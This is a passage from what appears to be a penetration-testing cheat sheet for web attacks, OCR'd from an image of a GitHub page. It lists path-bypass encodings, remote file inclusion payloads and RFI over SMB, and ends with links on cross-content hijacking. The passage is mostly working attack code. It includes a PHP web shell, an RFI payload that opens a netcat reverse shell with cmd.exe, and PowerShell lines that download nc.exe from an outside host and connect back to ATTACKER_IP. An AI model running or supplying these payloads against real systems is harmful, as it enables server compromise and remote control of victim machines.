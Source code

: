     /admin%20/page
    /%61dmin
    
    # Path Bypasses
    # 16-bit Unicode encoding
    # double URL encoding
    # overlong UTF-8 Unicode encoding
    ….//
    ….\/
    …./\
    ….\\
    
    # RFI:
    http://10.11.1.111/addguestbook.php?LANG=http://10.11.1.111:31/evil.txt%00
    Content of evil.txt:
    <?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>
    # RFI over SMB (Windows)
    cat php_cmd.php
        <?php echo shell_exec($_GET['cmd']);?>
    # Start SMB Server in attacker machine and put evil script
    # Access it via browser (2 request attack):
    # http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
    # http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234
    
    # Cross Content Hijacking:
    https://github.com/nccgroup/CrossSiteContentHijacking
    https://soroush.secproject.com/blog/2014/05/even-uploading-a-jpg-file-can-lead-to-cross-domain-data-hijacking-client-side-attack/
    http://50.56.33.56/blog/?p=242
    